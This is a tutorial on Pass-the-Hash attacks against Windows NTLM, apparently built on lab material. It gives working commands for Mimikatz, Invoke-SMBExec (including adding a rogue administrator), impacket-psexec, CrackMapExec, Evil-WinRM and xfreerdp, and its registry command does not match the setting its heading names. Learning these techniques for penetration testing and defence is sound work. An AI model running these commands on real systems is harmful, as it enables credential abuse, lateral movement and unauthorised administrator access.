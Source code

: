 ```yaml
---
title: "Pass the Hash (PtH) Attack: A Practical Guide"
date: 2025-05-25 00:00:00 +0000
tags: \[pentesting, windows, mimikatz, impacket, red-teaming]
categories: \[security, red-teaming]
pin: false
----------

A Pass the Hash (PtH) attack is a technique in which an attacker uses a password hash to authenticate to remote systems instead of the plaintext password. This method exploits authentication protocols like NTLM that accept hashed credentials without decrypting them. Since the hash remains valid until the user changes the password, it can be reused multiple times, making it a powerful attack vector.

---
```


### Requirements for a PtH Attack

To execute a PtH attack, the attacker typically needs elevated privileges on the target system to extract password hashes. Common methods to acquire these hashes include:

* Dumping the Security Account Manager (SAM) database.
* Extracting hashes from the NTDS.dit file on a Domain Controller.
* Retrieving hashes from memory (e.g., `lsass.exe`).

---

## Windows NTLM Overview

NTLM (New Technology LAN Manager) is a challenge-response authentication protocol still used in Windows environments, primarily for backward compatibility. However, it lacks modern security features like salting passwords, making it vulnerable to PtH attacks.

Read more at Microsoft's documentation: [NTLM Authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

## Performing PtH Attacks

### 1. **Using Mimikatz (Windows)**

Mimikatz includes the `sekurlsa::pth` module, which starts a new process with a specified user's hash:

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe"
```

Reference: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

### 2. **Invoke-TheHash (Windows)**

Invoke-TheHash is a PowerShell toolset for PtH attacks using SMB and WMI:

```powershell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add"
```

For a reverse shell, use: [https://www.revshells.com](https://www.revshells.com)

Tool: [Invoke-TheHash GitHub](https://github.com/Kevin-Robertson/Invoke-TheHash)

### 3. **Impacket PsExec (Linux)**

Impacket provides various Python-based tools for network attacks:

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Impacket GitHub](https://github.com/fortra/impacket)

### 4. **CrackMapExec (Linux)**

CrackMapExec is ideal for automating enumeration and attack steps in AD environments:

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Documentation: [NetExec Wiki](https://netexec.readthedocs.io/en/latest/)

### 5. **Evil-WinRM (Linux)**

Evil-WinRM allows PowerShell Remoting with hashes:

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

### 6. **Using xfreerdp for RDP (Linux)**

Ensure Restricted Admin Mode is enabled, then:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

More on configuring RDP for PtH: [FreeRDP Wiki](https://github.com/FreeRDP/FreeRDP/wiki)

---

## UAC and LocalAccountTokenFilterPolicy

UAC restricts remote administrative access for local accounts unless configured properly. Modify these registry keys to enable remote use:

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

For more details, see Will Schroeder’s blog: [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

---

## Conclusion

Pass the Hash remains a critical threat in Windows environments relying on NTLM. Tools like Mimikatz, Impacket, and CrackMapExec make exploitation straightforward if proper defenses aren't in place. Organizations should consider mitigating PtH by disabling NTLM where possible, enforcing strong credential hygiene, using LAPS, and monitoring authentication logs.

**Always test ethically and in controlled environments. For educational use only.**
